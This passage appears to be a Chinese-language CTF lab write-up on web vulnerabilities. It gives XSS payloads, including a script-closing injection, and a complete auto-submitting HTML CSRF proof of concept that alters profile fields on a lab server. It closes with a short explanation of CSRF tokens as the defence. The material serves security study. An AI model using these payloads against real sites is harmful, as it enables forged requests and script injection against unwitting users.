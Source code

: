 没懂和**htmlspecialchars**考点有什么区别

```js
javascript:alert(1)
```

#### XSS之js输出

要先把之前的script闭合

```js
'</script><script>alert(1);</script>
</script><script>alert(1);</script>
```



## CSRF

#### CSRF(get)

<img src="https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251010111933733.png" alt="image-20251009161713483" style="zoom:25%;" />

抓包可以发现get请求里有修改信息的内容，篡改参数后欺骗用户点击即可

#### CSRF(post)

post请求相比之下就没有那么简单，需要继续诱骗用户进行点击按键才能实现，或许可以用重定向？

<img src="https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251010111933734.png" alt="image-20251009163502365" style="zoom:33%;" />

所以搭建一个网站可以重定向来提交表单，或者是用一个button来提交都可以

```html
<!doctype html>
<meta charset="utf-8">
<title>CSRF PoC</title>
<form id="f" method="post" action="http://node.hackhub.get-shell.com:45751/vul/csrf/csrfpost/csrf_post_edit.php">
  <input type="hidden" name="sex" value="123">
  <input type="hidden" name="phonenum" value="123">
  <input type="hidden" name="add" value="123">
  <input type="hidden" name="email" value="123">
</form>
<script>onload=()=>document.getElementById('f').submit();</script>

```

#### CSRF Token

造成CSRF漏洞的主要原因是请求敏感操作的数据包容易被伪造,只要在每次请求时都增加一个`Token`， 每次操作的时候进行验证，可以有效地防止csrf，因为csrf的时候都不能拿到token

## SQL-Inject

后面会直接做sql-lab所以不在这里细写
